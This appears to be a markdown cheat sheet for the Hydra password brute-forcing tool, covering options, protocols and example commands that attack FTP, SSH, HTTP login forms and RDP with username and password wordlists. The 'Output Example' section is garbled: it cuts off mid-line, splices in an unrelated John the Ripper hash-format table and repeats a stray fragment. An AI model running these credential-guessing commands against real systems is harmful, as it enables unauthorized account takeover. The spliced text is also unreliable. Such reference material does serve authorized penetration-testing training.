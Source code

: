 ## ⚙️ Basic Syntax
```
hydra [OPTIONS] [TARGET] [PROTOCOL]
```

## 🧰 Common Options

|Option|Description|
|---|---|
|`-l`|Login/username (single)|
|`-L`|File with list of usernames|
|`-p`|Password (single)|
|`-P`|File with list of passwords|
|`-s`|Port (if not default)|
|`-t`|Number of parallel connections (threads)|
|`-vV`|Verbose mode (show each login attempt)|
|`-f`|Exit after first valid login found|
|`-o`|Write results to file|
|`-e ns`|Try login as password and blank password|
|`-I`|Ignore errors|
|`-u`|Loop around users, not passwords|
|`-w`|Wait time (timeout) in seconds|

## 🔐 Supported Protocols (Common)

- **http-get**, **http-post**, **http-form-get**, **http-form-post**
    
- **ssh**
    
- **ftp**
    
- **telnet**
    
- **rdp**
    
- **smb**
    
- **vnc**
    
- **mysql**, **postgres**, **mssql**
    
- **smtp**, **pop3**, **imap**
    
- **snmp**, **ldap**
    
- Use `hydra -U` to see all supported services.

## 🚀 Example Usage

1. **FTP Brute-force**
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.100
```

2. **SSH Brute-force**
```
hydra -L users.txt -P passwords.txt ssh://192.168.1.100
```

3. **HTTP POST Login Form Attack**
```
hydra -L users.txt -P passwords.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid login"
```

4. **RDP Login Brute-force**
```
hydra -L users.txt -P passwords.txt rdp://192.168.1.100
```

## Output Example
```
[22][ssh] host: 192.| Hash Type | Format Option                |
| --------- | ---------------------------- |
| MD5       | `--format=raw-md5`           |
| SHA1      | `--format=raw-sha1`          |
| NTLM      | `--format=nt`                |
| bcrypt    | `--format=bcrypt`            |
| zip       | Auto-detected via `zip2john` |
| pdf       | Auto-detected via `pdf2john` |-e ns` → Try login as password and blank password
















